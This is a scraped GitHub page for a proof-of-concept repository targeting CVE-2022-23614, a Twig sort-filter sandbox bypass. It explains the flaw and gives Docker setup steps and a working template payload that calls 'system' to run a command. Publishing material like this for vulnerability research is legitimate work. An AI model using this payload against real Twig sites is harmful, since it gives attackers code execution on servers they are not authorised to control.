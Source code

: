 # CVE-2022-23614

PoC for CVE-2022-23614 (Twig sort filter code execution/sandbox bypass)

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/davwwwx](https://github.com/davwwwx) |
| Url      | [https://github.com/davwwwx/CVE-2022-23614](https://github.com/davwwwx/CVE-2022-23614)                                               |
| Stars    | 3                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* cve-2022-23614* php* twig

</details>

## Readme

# CVE-2022-23614
PoC for [CVE-2022-23614](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-23614), [GHSA-5mv2-rx3q-4w2v](https://github.com/twigphp/Twig/security/advisories/GHSA-5mv2-rx3q-4w2v) (Twig sort filter code execution/sandbox bypass)

As seen in this commit - [https://github.com/twigphp/Twig/commit/..](https://github.com/twigphp/Twig/commit/22b9dc3c03ee66d7e21d9ed2ca76052b134cb9e9), twig was passing user supplied function name as a callback parameter to [uasort](https://www.php.net/manual/en/function.uasort.php) ([here](https://github.com/twigphp/Twig/commit/22b9dc3c03ee66d7e21d9ed2ca76052b134cb9e9#diff-29e85e483c6ec4a9c2fd144820b6722c86df60d54175b355d85e806253313c1aR940)), thus leading to arbitrary code execution

To build and run the docker container with  a vulnerable twig version
```BASH
$ ./build-docker.sh
```

Open the webpage at localhost:1337 and try rendering the following payload

```Twig
{{ ['id','']|sort('system') }}
```

PoC
![PoC](/images/webpage.png)

Result
![Result](/images/result.png)



## Get the content

```
git clone https://github.com/davwwwx/CVE-2022-23614
cd CVE-2022-23614
```

{% embed url="https://github.com/davwwwx/CVE-2022-23614" %}

<figure><img src="https://avatars.githubusercontent.com/u/26136505?v=4" alt=""><figcaption><p>davwwwx</p></figcaption></figure>
